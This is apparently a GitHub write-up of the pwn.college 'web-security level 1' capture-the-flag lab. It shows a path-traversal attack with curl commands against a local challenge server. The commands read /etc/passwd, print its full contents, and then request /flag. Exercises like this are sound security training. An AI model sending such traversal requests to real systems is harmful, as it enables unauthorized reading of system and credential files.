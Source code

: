# Challanges :

* In Challanges we have `/challanges ` and `/falg` dir here we have to run the `/challnages/run` file.. 
* Then with the attack Which is given we have to capture the falg...


## Web-security level 1
* In this challnage we have to perform Path traversal..
* After running the file `/challange/run` we can perform the attack vector...
* For flag we use Curl.. 


```sh
hacker@web-security-level-1:~$ curl http://challenge.localhost:80/../../../etc/passwd --path-as-is -i
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Mon, 24 Jan 2025 05:15:31 GMT
Content-Length: 24
Server: pwn.college
Connection: close

Missing `path` argument

# First it shows that there is a missing argument..

hacker@web-security-level-1:~$ curl http://challenge.localhost:80?path=/../../../etc/passwd --path-as-is -i
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Mon, 24 Jan 2025 05:15:45 GMT
Content-Length: 1069
Server: pwn.college
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
hacker:x:1000:1000::/home/hacker:/bin/bash
sshd:x:1001:65534::/run/sshd:/usr/sbin/nologin

## with path we can get the pass file in box...

hacker@web-security-level-1:~$ curl http://challenge.localhost:80?path=/../../../flag --path-as-is -i
```